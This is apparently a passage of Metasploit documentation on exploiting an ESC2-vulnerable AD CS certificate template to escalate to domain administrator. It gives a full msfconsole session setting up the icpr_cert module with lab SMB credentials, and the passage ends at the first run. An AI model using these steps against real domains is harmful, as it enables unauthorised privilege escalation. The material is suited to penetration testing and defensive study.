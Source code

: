 We will use ESC2-Template to gain a TGT as the domain administrator user.

To do this we will use the `ipcr_cert` module and we will set the usual options, however we will need to run it twice. This is because with ESC2, we can't use the vulnerability to request authentication certificates as other users without the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag being set on the template. Instead what we can do is use the Any Purpose EKU or SubCA EKU that are set on these certificates to authenticate to the domain as the user who requested the certificate. So what we do is first get a ESC2 vulnerable certificate, then abuse the ability to use that certificate for any purpose to then request a certificate on behalf of another user, using that certificate as the form of authentication for this operation.

For the first run, we will set the usual `RHOSTS`, `CA`, and `CERT_TEMPLATE` details, being sure to set `CERT_TEMPLATE` to the vulnerable `ESC2-Template` certificate template, and supply valid SMB login credentials. This will grant us a certificate for our current user that is based off of the vulnerable `ESC2-Template`:

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Template
CERT_TEMPLATE => ESC2-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normaluser                   no        The password for the specified username
   SMBUser        normal                       no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
```